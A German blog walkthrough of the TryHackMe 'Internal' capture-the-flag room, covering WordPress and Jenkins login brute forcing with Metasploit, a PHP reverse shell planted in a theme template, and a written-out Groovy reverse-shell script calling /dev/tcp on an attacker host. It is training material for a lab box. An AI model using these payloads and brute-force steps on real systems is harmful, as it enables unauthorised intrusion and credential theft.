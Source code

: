 ```yaml
---
title: TryHackMe Internal writeup
description: Ein writeup zu dem TryHackMe Raum Internal. Es kommen verschiedene Techniken und Tools, wie nmap, GoBuster und Metasploit zum Einsatz.
tags:
 - security
 - linux
 - ctf
header:
 image: /images/header_keyboard.jpg
 image_description: "Foto einer Computertastatur."
 caption: "Photo credit: [pexels.com](https://pexels.com)"
---
```


Nachdem ich gerade erst einen writeup für TryHackMe rootme geschrieben habe, gibt es jetzt einen weiteren für [Internal](https://tryhackme.com/room/internal).
Internal ist als Black Box Penetration Test angelegt. Das heißt über die Infrastruktur, welche man auf Schwachstellen untersuchen muss, gibt es keine weiteren Informationen. Lediglich die IP-Adresse des Ziels ist bekannt und man weiß, dass zwei Flags zu finden sind: eine User.txt mit normalen Privilegien und eine Root.txt, für welche man root Privilegien benötigt.

## Vorwort

Vorweg der übliche Disclaimer: ihr könnt die Tools, welche hier vorgestellt werden für euer eigenes Netzwerk verwenden oder im Rahmen eines Penetration Tests einsetzen, wenn ihr dafür beauftragt wurdet. Jedoch dürft ihr diese Tools niemals gegen fremde Systeme ohne explizite Erlaubnis einsetzen.

## Aufklärung

Als allererstes modifizieren wir unsere Hostfile, sodass internal.thm auf die IP-Adresse des Ziels zeigt.

Dann starten wir mit der Aufklärung und der ersten Informationsgewinnung. Hierfür nutzen wir nmap, um Informationen über offene Ports, Dienste und das Betriebssystem zu erlangen. 

Wir nutzen folgenden Befehl, mit welchem der Output auch in eine Textdatei ausgegeben wird.

`nmap -A $ipaddress -o nmap.txt`

{:refdef: style="text-align: center;"}
![Ergebnis des nmap Scans]({{ site.baseurl }}/images/nmap_internal.png)
{: refdef}

Folgende Ergebnisse lieferte der Scan

* Port 22 für SSH ist offen
* Port 80 ebenfalls offen. Dahinter läuft ein Apache Webserver in der Version 2.4.29
* Das Betriebssystem ist wahrscheinlich ein Ubuntu Linux

## Untersuchung des Webservers

Rufen wir http://internal.thm mit unserem Webbrowser auf erscheint die Apache2 Ubuntu Default Page. Ein Scan mit Gobuster offenbart, dass unter /blog ein WordPress Blog zu finden ist.

 `gobuster -u http://$ip -w /opt/wordlists/directory-list-2.3-small.txt`

Wie in vergangenen Walkthroughs wurde hier die directory-list-2.3-small.txt von
[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt) verwendet.

Weitere Ergebnisse des Scans sind unter anderem eine Instanz von phpmyadmin unter /phpmyadmin. Wir konzentrieren uns hier auf die Untersuchung von WordPress und schauen, ob wir uns hierüber einen Zugang zum Server verschaffen können. Über die URL `http://internal.thm/blog/?author=1` finden wir heraus, dass es einen WordPress User mit dem Namen admin gibt. 

{:refdef: style="text-align: center;"}
![WordPress zeigt den Namne des Users admin]({{ site.baseurl }}/images/wordpress_user.png)
{: refdef}

Es gibt jetzt sicherlich mehrere Methoden, wie man an dieser Stelle fortfahren könnte. Ich habe mich für Brute Force mit dem Metasploit Modul `auxiliary/scanner/http/wordpress_login_enum` entschieden. In diesem Fall müssen folgende Optionen gesetzt werden:

* set rhosts internal.thm
* set targeturi /blog
* set stop_on_success true
* set username admin
* set pass_file /opt/wordlists/rockyou.txt (je nachdem welchen Pfad und Wordlist ihr verwendet)

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/wppw_internal.png)
{: refdef}

Mit den Zugangsdaten kann man sich nun unter `http://internal.thm/blog/wp-login.php` einloggen. Unter Appearance / Theme Editor finden wir das 404 Template (404.php). Hier können wir eine [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) platzieren und müssen anschließend nur einen 404 Error produzieren, um einen Zugang zum Server zu erhalten. In dem Code der reverse-shell müssen wir nur noch die IP und den Port anpassen.

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/phpshell_internal.png)
{: refdef}

Mit Netcat warten wir auf die Verbindung auf dem zuvor festgelegten Port: `nc -lvnp 4444`. Anschließend noch mit einer auf dem Server nicht existenten URL einen Error 404 hervorrufen, zum Beispiel mit: `http://internal.thm/blog/index.php/2020/08/03/give-access-pls/`

{:refdef: style="text-align: center;"}
![Screenshot der Shell]({{ site.baseurl }}/images/wordpress_shell.png)
{: refdef}

Nun haben wir eine Shell und finden unter /opt/ die Datei wp-save.txt. Darin finden wir Logindaten, welche wir für eine SSH-Verbindung nutzen können.

{:refdef: style="text-align: center;"}
![Textdatei mit Logindaten via SSH.]({{ site.baseurl }}/images/sshlogin_internal.png)
{: refdef}

Loggen wir uns per SSH ein, finden wir im home-Verzeichnis des Users auch direkt die Flag user.txt

{:refdef: style="text-align: center;"}
![Screenshot der Textdatei mit der Userflag user.txt.]({{ site.baseurl }}/images/userflag_internal.png)
{: refdef}

Neben der Flag finden wir eine jenkins.txt, in welcher ein Hinweis auf eine lokale Jenkins-Instanz unter 172.17.0.2:8080 steht, welche als Docker-Container läuft. Mit `ssh -L 5555:localhost:8080 aubreanna@internal.thm` leiten wir den Port 5555 auf unserer lokalen Maschine an den Port 8080 auf der remote Maschine weiter und können so Jenkins im Browser via http://localhost:5555 erreichen. Dort sehen wir dann das Loginformular von Jenkins.

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkins_internal.png)
{: refdef}

Mit Metasploit finden wir die Logindaten für den default User admin heraus. Dazu wird das Modul `auxiliary/scanner/http/jenkins_login` mit folgenden Optionen verwendet:

* set rhosts localhost
* set rport 5555
* set username admin
* set pass_file /opt/wordlists/password-top10000.txt (hier wieder den Pfad der Passwortdatei eurer Wahl einfügen)
* set stop_on_success true

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkinslogin_internal.png)
{: refdef}

Wenn wir uns mit diesen Logindaten in Jenkins eingeloggt haben, können wir unter http://localhost:5555/script die Skript-Konsole von Jenkins aufrufen. Hier ist es uns möglich ein Skript für eine reverse-shell auszuführen. Anzupassen sind die IP und der Port hinter /tcp/ .

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Nun nutzen wir wieder Netcat mit `nc -lvnp 1234` und führen das Jenkins Skript aus. Wir erhalten eine Shell im Jenkins Container, wo wir unter /opt/ eine note.txt mit root-credentials finden.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootcreds_internal.png)
{: refdef}

Mit den erbeuteten Zugangsdaten loggen wir uns per SSH ein und finden direkt die root.txt mit der Flag.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootflag_internal.png)
{: refdef}

Wenn ihr andere Lösungsansätze gefunden habt, oder Fragen zu dieser Capture the Flag Challenge habt, meldet euch gerne bei [Twitter](https://twitter.com/jln0x1).
